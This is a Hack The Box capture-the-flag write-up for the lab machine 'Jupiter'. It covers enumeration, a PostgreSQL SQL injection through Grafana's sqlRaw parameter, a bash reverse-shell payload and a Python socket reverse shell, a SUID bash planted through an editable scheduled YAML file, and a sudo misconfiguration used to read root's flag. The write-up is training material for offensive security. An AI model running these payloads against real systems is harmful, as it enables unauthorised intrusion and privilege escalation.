 # Jupiter

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Jupiter
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.216

Discovered open port 22/tcp on 10.10.11.216
Discovered open port 80/tcp on 10.10.11.216
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.216

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://jupiter.htb/

Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
```
</details>

<details>
<summary>dir (<code>jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://jupiter.htb/'

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]
```
</details>

<details>
<summary>dir (<code>kiosk.jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://kiosk.jupiter.htb/'

/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]
/org                  (Status: 302) [Size: 24] [--> /]
/logout               (Status: 302) [Size: 29] [--> /login]
/explore              (Status: 302) [Size: 24] [--> /]
/monitoring           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 100948]
/configuration        (Status: 302) [Size: 24] [--> /]
/connections          (Status: 302) [Size: 24] [--> /]
/styleguide           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/alerting             (Status: 200) [Size: 34390]
```
</details>

## Foothold

### Web → `postgres-user`

#### Searching for Vulnerabilities

- when accessing the Grafana instance at `kiosk.jupiter.htb`, several POST requests are sent to the server (can be intercepted with burpsuite)
- the POST request to `/api/ds/query` contains the parameter `sqlRaw`
- `sqlmap -r request` shows that `sqlRaw` is injectable
    - DBMS appears to be **PostgreSQL > 8.1**
    - unfortunately the `--os-shell` is extremly slow and therefore unusable

#### Exploitation

1. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```
2. We can perform the SQL injection manually by setting the `sqlRaw` parameter to the following value:
    ```
    COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1\"';
    ```
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

3. We now have reverse shell access for user `postgres-user`!

## Lateral Movement

### `postgres-user` → `juno` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` indicates that there are two user accounts with a home directory:
    ```
    juno:x:1000:1000:juno:/home/juno:/bin/bash
    jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
    ```
- `find / -user juno 2>/dev/null` will show that `juno` is the owner of the files in `/dev/shm/`
- `/dev/shm/network-simulation.yml` can be edited and contains commands that are run periodically

#### Exploitation

1. Edit `network-simulation.yml` so that a bash with SUID-bit set for `juno` will get created in `/tmp`:
    ```yaml
    server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
        args: /bin/bash /tmp/bash
        start_time: 3s
    # three hosts with hostnames 'client1', 'client2', and 'client3'
    client:
        network_node_id: 0
        quantity: 3
        processes:
        - path: /usr/bin/chmod
        args: u+s /tmp/bash
        start_time: 5s
    ```
2. After a while `/tmp/bash` will get created. We can start a bash as `juno` by running `/tmp/bash -p`. Unfortunately `user.txt` cannot be accessed yet.
3. After adding my SSH public key in `/home/juno/.ssh/authorized_keys`, we can log in as `juno` via SSH and access the user flag! 🚩

### `juno` → `jovian`

#### Searching for Vulnerabilities

- `ss -tlp` shows that there are tcp ports `3000` and `8888` open locally
- By using the SSH port forwarding feature, we can scan these ports using nmap:
    ```
    ssh -L 3000:localhost:3000 juno@10.10.11.216
    ssh -L 8888:localhost:8888 juno@10.10.11.216    
    ```
    <details>
    <summary>nmap output</summary>
    
    ```
    PORT     STATE SERVICE VERSION
    3000/tcp open  ppp?
    | fingerprint-strings:
    |   GenericLines, Help:
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest:
    |     HTTP/1.0 200 OK
    |     Cache-Control: no-store
    |     Content-Type: text/html; charset=UTF-8
    |     X-Content-Type-Options: nosniff
    |     X-Frame-Options: deny
    |     X-Xss-Protection: 1; mode=block
    |     Date: Thu, 07 Sep 2023 11:30:48 GMT
    |     <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" content=
    |   HTTPOptions:
    |     HTTP/1.0 404 Not Found
    |     Cache-Control: no-store
    |     Content-Type: text/html; charset=UTF-8
    |     X-Content-Type-Options: nosniff
    |     X-Frame-Options: deny
    |     X-Xss-Protection: 1; mode=block
    |     Date: Thu, 07 Sep 2023 11:30:53 GMT
    |_    <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" c
    8888/tcp open  http    Tornado httpd 6.2
    | http-title: Jupyter Notebook
    |_Requested resource was /login?next=%2Ftree%3F
    |_http-server-header: TornadoServer/6.2
    | http-robots.txt: 1 disallowed entry
    |_/
    ```
    </details>

    - Port `3000` seems to be the Grafana instance
    - Port `8888` is a Jupyter notebook 

#### Exploitation

1. When opening the Jupyter webinteface under `localhost:8888`, a token must be entered, which can be found in `/opt/solar-flares/logs/jupyter-2023-09-07-15.log`.
    - Token: `ecae914aaaf6c419b40775ad51f07e7d3aece17a93e7104`
2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```
3. After entering the token, a new Jupyter notebook can be created and the payload for a reverse shell can be executed in a cell:
    ```python
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
    ```
4. We now have reverse shell access for `jovian`.


## Privilege Escalation

### `jovian` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `/usr/local/bin/sattrack` binary with sudo
- executing `/usr/local/bin/sattrack` gives an error message stating that a `/tmp/config.json` is required

#### Exploitation

1. A working configuration file can be found under `/usr/local/share/sattrack/config.json`, which can be copied to `/tmp/config.json`.
2. We can modify the configuration file `/tmp/config.json` so that the program outputs the root flag:
    ```json
    "tlesources": [
        "file:///root/root.txt",
    ],
    ```
3. After executing `sudo /usr/local/bin/sattrack`, we can find the root flag in `/tmp/tle/root.txt`! 🏁